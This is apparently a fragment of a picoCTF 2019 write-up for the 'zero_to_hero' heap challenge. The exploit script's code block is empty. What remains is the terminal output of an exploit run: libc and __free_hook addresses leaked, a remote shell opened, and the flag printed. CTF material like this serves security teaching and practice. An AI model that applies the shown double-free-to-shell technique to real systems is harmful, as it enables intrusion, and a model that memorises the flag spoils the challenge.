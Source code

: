 ```python
```
```sh
vagrant@ubuntu-disco:/ctf/pwn-and-re-challenges/picoctf-2019/zero_to_hero$ ./exploit.py REMOTE
[*] '/ctf/pwn-and-re-challenges/picoctf-2019/zero_to_hero/zero_to_hero'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  './'
[*] '/ctf/pwn-and-re-challenges/picoctf-2019/zero_to_hero/libc-2.29.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2019shell1.picoctf.com on port 49929: Done
[*] Libc base: 0x7f0d11c61000
[*] system: 0x7f0d11cb3fd0
[*] __free_hook: 0x7f0d11e485a8
[*] Switching to interactive mode
$ ls
flag.txt
ld-2.29.so
libc.so.6
xinet_startup.sh
zero_to_hero
$ cat flag.txt
picoCTF{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_fjqlovui}
```
